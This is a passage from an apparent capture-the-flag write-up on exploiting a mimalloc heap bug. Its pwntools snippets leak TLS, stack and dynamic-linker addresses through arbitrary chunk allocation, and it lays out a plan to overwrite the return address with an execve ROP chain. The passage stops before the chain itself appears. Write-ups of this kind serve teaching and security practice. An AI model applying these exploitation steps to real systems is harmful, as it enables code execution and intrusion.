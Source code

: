 ![img](/images/environ.png)

Conveniently, the mi_page_t struct includes a pointer to TLS. Using the same arbitrary allocation technique as before, we can place a chunk at environ, giving us the stack address.

From there, we can calculate the return address (RIP) at the end of the edit function.


```py
edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(heap_base+0x118))
create(2)
create(2)
show(2)
tls_leak = u64d(rl()[:8])
tls_base = tls_leak - 0x1b28
environ = tls_base + 0x1d60
log.success("TLS leak: %#x", tls_leak)
log.success("TLS base: %#x", tls_base)
log.info("environ: %#x", environ)

edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(environ))
create(2)
create(2)
show(2)
stack_leak = u64d(rl()[:8])
rip = stack_leak - 0x70
log.success("Stack leak: %#x", stack_leak)
```

There are a lot of gadgets in libmimalloc, but I couldn't find a syscall instruction within the library itself. However, the dynamic linker contains a syscall function that includes the syscall instruction. Fortunately, we can leak the address of the linker through the GOT in libmimalloc, which allows us to locate the syscall gadget.

![img](/images/syscallgot.png)
![img](/images/syscall.png)

```py
edit(1, p64(heap_base+0x10a80)) # Fix freelist
edit(15, p64(libc.address + 0x29c50)) # syscall got. Syscall points to ld
create(2)
create(2)
show(2)
syscall_got = u64d(rl()[:8])
ld_base = syscall_got - 0x55f1f
log.success("ld leak: %#x", syscall_got)
log.success("ld base: %#x", ld_base)
```

What we can do now is simply allocate a chunk at the RIP address and overwrite it with our ROP chain. I crafted a ROP chain that performs an execve syscall. Since the challenge used BusyBox, I had to invoke it like this:
